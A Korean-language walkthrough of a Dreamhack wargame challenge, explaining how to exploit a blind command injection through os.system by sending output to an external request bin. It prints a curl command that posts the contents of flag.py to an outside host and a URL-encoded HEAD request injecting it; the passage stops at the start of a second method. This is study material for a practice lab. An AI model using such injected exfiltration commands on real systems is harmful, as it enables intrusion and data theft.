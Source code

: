 <br>

### 1. Network Outbound

`app.py` 코드에서 `os.system(cmd)` 시스템 함수를 수행하긴 하지만, 해당 함수의 수행 결과를 직접 인덱스 페이지에 반영해주지 않고, `cmd` 값만 리턴해준다.

**따라서, 시스템 함수의 수행 결과를 외부 서버로 가져오는 Network Outbound를 이용해야한다.**

외부 서버는 [드림핵 툴즈](https://tools.dreamhack.games/requestbin/aysuaio)의 Request Bin 탭에서 랜덤한 URL을 생성한 후, 해당 URL로 HTTP 요청을 전달받을 수 있고,

<img width="1380" alt="image" src="https://github.com/user-attachments/assets/c33adcee-312d-4053-ba51-43bff10d0ad3">

위에서 생성한 외부 서버로 결과를 보내기 위해서는 시스템 함수에서 쉘의 명령어로 사용할 수 있는, `curl` 또는 `wget` 명령어를 사용하면 된다.

---

`curl`(Client URL)은 주로 웹 서버에 요청을 보내고, 그 결과를 출력하거나 파일로 저장하는 데 사용된다.

HTTP 뿐만 아니라 다양한 프로토콜과 인증 방식 등을 지원하며, REST API 호출, 파일 다운로드, POST 데이터 전송 등 다목적으로 사용된다.

그리고 `wget`(World Wide Web Get)은 주로 파일이나 웹 페이지를 다운로드하는 데 사용된다.

인터넷에서 파일을 자동으로 다운로드하거나 복잡한 다운로드 작업을 수행할 때 많이 사용되지만, HTTP 요청을 보내는데도 사용이 되기 때문에 여기서 이용할 수 있다.

---

그럼 다시 돌아와서, `curl` 명령어를 `cmd`에 전달하여 드림핵 툴즈에서 생성한 랜덤한 URL로 `cat flag.py`의 수행 결과를 보내는 방법을 사용해보자.

Burp Suite에서 워게임 서버에 `HEAD` 메서드를 사용하여, `cmd`에 아래의 두 명령어를 전달하여 문제를 풀이할 수 있다.

<br>

#### 1. `curl` : 원격 서버에 POST 메서드로 `cat flag.py`의 결과를 데이터에 전송

```shell
curl https://yzyozog.request.dreamhack.games -d "$(cat flag.py)"
```

위 명령어가 시스템 함수에 수행되도록 `HEAD` 요청을 워게임 서버에 전송하면 된다.

`-d` 명령어는 원격 서버에 `POST` 요청을 보낸다는 옵션이며, 바로 뒤의 `$(cat flag.py)`가 해당 요청의 데이터값이다.

`$()`은 명령어의 수행 결과값을 치환하는 메타 문자로, `cat flag.py`가 시스템 함수에서 수행된 후 결과 값이 치환되어 `POST` 요청의 데이터에 저장될 것이다.

``` ` ```를 통해 명령어를 치환해도 똑같은 결과가 나오지만, `$()`이 훨씬 가독성면에서 더 직관적이고, 중첩 상황에서 예외가 발생하지 않기 때문에 많이 사용된다는 것을 참고하자.

참고로, `"$()"`와 달리 `$()`만 사용하여 `""`로 묶어주지 않으면 `flag.py`의 내용이 `FLAG = DH{~}` 이기 때문에, 공백에 따라 데이터가 끊겨서 아래와 같이 `FLAG`만 전달되게 된다.

<img width="595" alt="image" src="https://github.com/user-attachments/assets/e29c99f7-ccc6-4c8a-93c4-a80dcb13f197">

따라서, `curl -d` 를 통해 데이터를 보낼 때는 데이터에 공백이 포함된 경우 `""`로 묶어서 하나의 데이터로 해석되게 해야함을 유의하자.

그리고 Burp Suite에서 `HEAD` 메서드로 원격 서버에 요청을 전달할 때는 **URL 인코딩 형식**으로 보내야 하기 때문에 공백은 `+`로 바꿔서 써야 한다.

따라서 아래의 Payload를 전달하면 되고, 드림핵 툴즈에 들어가보면 아래와 같이 `cat flag.py`의 결과값이 전송되는 것을 확인할 수 있다.

```
HEAD /?cmd=curl+https://offxuuz.request.dreamhack.games+-d+"$(cat+flag.py)" HTTP/1.1
```

<img width="609" alt="image" src="https://github.com/user-attachments/assets/dacb7c93-16e3-4574-87f7-7971d5235794">

<br>

#### 2. `curl` : 원격 서버에 GET 메서드로 `cat flag.py`의 결과를 파라미터로 전송

```
